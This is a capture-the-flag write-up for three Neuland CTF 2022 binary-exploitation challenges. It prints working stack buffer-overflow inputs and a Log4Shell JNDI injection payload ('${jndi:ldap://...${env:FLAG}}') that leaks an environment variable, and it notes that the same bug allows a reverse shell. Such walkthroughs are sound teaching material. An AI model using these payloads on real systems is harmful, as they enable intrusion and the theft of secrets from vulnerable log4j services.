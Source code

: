 ```yaml
---
title: "Neuland CTF 2022 Winter - PWN"
authors: ["0xFFD700", "manuv"]
date: 2022-12-07T18:04:00+02:00
draft: false
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


#### Password Guessing - Easy

*Can you guess the secret password? It changes every time you start the program. There is no chance you get it right. Try your luck! 
<br>

PS: You definitly need the password to get the flag. There is no way around.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8083*

<br>

[password_guessing.c](/files/neuland-ctf-12-2022/password_guessing.c)

<br>

We will start off by looking at the provided source code. A random password is generated every time the program is executed. The flag gets printed out if `logged_in == 1`. `logged_in` is set to 1 if we get the right password. We would have a hard time trying to guess the password and set `logged_in` to 1 through this way. Luckily the code uses `gets` to get the user input. `gets` does not check the array boundaries and we can input as many characters as we like. This allows us to overwrite the value of `logged_in`. A basic understanding of the stack is usefull to understand why this works. We can just input a bunch of characters (> 60) and the flag will be returned:

```
$ ./password_guessing                         
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{dummy-flag}
```

Executed on the server we get the flag:

```
$ nc summit.informatik.sexy 8083
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{51mpl3_45_7h47}
```

The flag is ``nland{51mpl3_45_7h47}`.

<br>

#### h4ck3r - Medium

*Can you find a way to change `secret_code`? I you do so I will reward you with a flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8081*

<br>

[h4ck3r.c](/files/neuland-ctf-12-2022/h4ck3r.c)

<br>

At first sight the task seems impossible. In order to get the flag the value of `secret_code` must be 0x1337. However, the variable is initialized with 0xC001D00D and is not changed during runtime. This means no matter what value we input as our hacker name, the value of `secret_code` will still be wrong. However, there is a small detail we have to take into consideration. The read function is used to save the user input in an array of size 100. The read function takes up to 0x100 = 256 characters and writes them to `name`. This allows us to go out of bounds and to change values on the stack. What a coincidence. This allows us the change the value of `secret_code` to whatever we want. Therefore we need to find the right offset to overwrite the memory area of `secret_code`. 

We can use python to generator inputs of a certain length and pipe them into the program. We know that the input must be at least 100 characters long.
```
$ python -c "print('A'*100)" | ./h4ck3r
```

At the end of this input we need to append the value of `secret_code`. Due to little endian we have to reverse the order of the bytes.
```
python -c "print('A'*100 + '\x37\x13\x00\x00')" | ./h4ck3r
```

Now we are good to go and we can try inputs of different lengths by increasing the number of A's. We can use GDB or change the program locally to give us more information on where excatly the offset of the memory area is. 108 A's is the sweetspot. We can send the payload to the server and we will get the flag.

```
$ python -c "print('A'*108 + '\x37\x13\x00\x00')" | nc localhost 8080
Enter your hacker name: Access granted!
nland{y0u_4r3_4_r34l_h4ck3r_n0w}
```

The flag is `nland{y0u_4r3_4_r34l_h4ck3r_n0w}`.

<br>

#### Log4Flag - Hard

*There is this program that is supposed to give me the flag. However, even if I beg for it and say the magic word, it won't return it. Try to lookup the flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc summit.informatik.sexy 8082*

<br>

[Log4Flag.zip](/files/neuland-ctf-12-2022/Log4Flag.zip)

<br>

This is the response if we connect to the server:
```
$ nc summit.informatik.sexy 8082
Do you want the flag?
yes
Try Harder! <3

Do you want the flag?
no
What are you even doing here? :P

Do you want the flag?
test 
Try a different input!

Do you want the flag?
...
```

Running the code locally with `run.sh` yields the same results. The response won't help us much for now. The `Log4Flag.zip` contains Java bytecode in the file `Log4Flag.class`. We can use `bytecode-viewer` or a website like [javadecompilers](http://www.javadecompilers.com/) to get the Java source code.

```java
import java.util.Scanner;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Flag {
    public static void main(String[] array) {
        try {
            final Logger logger = LogManager.getLogger("Log4Flag");

            while (true) {
                System.out.println("Do you want the flag?");
                String input = new Scanner(System.in).next();

                if (input.toLowerCase().contains("yes") && input.toLowerCase().contains("please")) {
                    System.out.println("I won't give you the flag this easily!");
                    logger.error("Unauthorized access attempt with input: {}", (Object) input);
                } else if (input.toLowerCase().contains("yes")) {
                    System.out.println("Try Harder! <3");
                } else if (input.toLowerCase().contains("please")) {
                    System.out.println("Getting closer!");
                } else if (input.toLowerCase().contains("no")) {
                    System.out.println("What are you even doing here? :P");
                } else {
                    System.out.println("Try a different input!");
                }
                System.out.println("");
            }
        } catch (Exception x) {
            System.err.println(x);
        }
    }
}
```

We can see that the code is using log4j. This should ring a bell about the zero day exploit in log4j that was published about a year ago [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228). Knowing this and looking at the challenge name, it is kind of obvious what we should do now. We need to use this vulnerability to find the flag.

We can also see that the logger is used if our input contains the words "yes" and "please". 
```bash
$ ./run.sh
Do you want the flag?
yesplease
I won't give you the flag this easily!
22:01:16.185 [main] ERROR Log4Flag - Unauthorized access attempt with input: yesplease
```

We can see that we now get a response from the logger as well. However, we haven't gotten the flag yet. We need to dig deeper.
We will start with a PoC to show that the vulnerability is present in the code:

```
$ ./run.sh 
Do you want the flag?
${jndi:ldap://127.0.0.1/test}yesplease
I won't give you the flag this easily!
2022-11-25 21:58:39,272 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
        at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
        ...

21:58:39.179 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/test}yesplease
```

The error messages proof that the vulnerability exists. The server tries to conntact a LDAP server and the connection gets refused. If we have a LDAP server, we could try to send request to it in order to create a reverse shell. This is not neccessary in this example. If we look at the `run.sh` script, we can see that the flag is saved in an environment variable called `FLAG`.
We can perform an environment lookup with log4j and retrieve the flag from the environment variables. 

```
$ ./run.sh     
Do you want the flag?
${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
I won't give you the flag this easily!
2022-11-25 22:10:38,008 main WARN Error looking up JNDI resource [ldap://127.0.0.1/nland{dummy-flag}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
...

22:10:37.920 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
```

We managed to exploit the code locally and to retrieve the dummy flag. It is contained in the exception log. Now we just have to execute the same payload on the server and we will be rewarded with the real flag. <br>
The flag is `nland{3nv1r0nm3n7_l00kup_&_m461c_w0rd_4_fl4g}`.
